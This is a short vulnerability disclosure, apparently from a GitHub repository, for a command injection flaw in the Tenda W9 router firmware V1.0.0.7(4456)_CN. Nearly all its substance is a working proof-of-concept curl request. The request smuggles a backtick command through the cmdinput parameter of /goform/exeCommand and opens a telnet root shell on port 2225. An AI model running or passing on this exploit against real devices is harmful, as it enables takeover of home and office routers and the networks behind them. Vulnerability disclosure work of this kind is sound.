



# Tenda W9 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.7(4456)_CN

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda W9 V1.0.0.7(4456)_CN devices. An HTTP request parameter is used in command string construction within the handler function of the formexeCommand route. This could lead to Command Injection via Shell Metacharacters.






When we send packets, the router will be shell

```
curl -i -X POST http://192.168.0.254/goform/exeCommand -d cmdinput='ping+`telnetd -p 2225 -l /bin/sh`' --referer "Referer: http://192.168.0.254/system_checktool.asp" --cookie "w9v1_user=admin"

```




